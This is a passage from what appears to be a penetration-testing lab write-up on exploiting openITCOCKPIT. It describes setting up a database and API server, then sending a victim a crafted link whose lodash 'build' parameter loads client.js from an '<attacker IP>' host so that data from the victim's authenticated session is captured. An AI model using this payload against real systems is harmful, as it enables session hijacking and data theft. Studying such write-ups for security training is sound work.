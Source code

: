 ```python
		write_to_file(l[0], str(content))
``` 

## Exploitation

With everything in place, we can start off by creating a database with our database script:

![](../../03.%20Images/t7-ss22.png)

With the database created, we'll run our API server:

![](../../03.%20Images/t7-ss23.png)

With our server running, we'll send the link with the payload to the victim, and wait for them to open it, with their authenticated session:

```url
http://openitcockpit/js/vendor/lodash/perf/index.html?build=http://<attacker IP>/client.js
```

Once, the user opens the link with their authenticated session, we can see it in our logs, as our database starts getting populated:

![](../../03.%20Images/t7-ss24.png)

With the database populated, we can now dump the contents using our dump script:
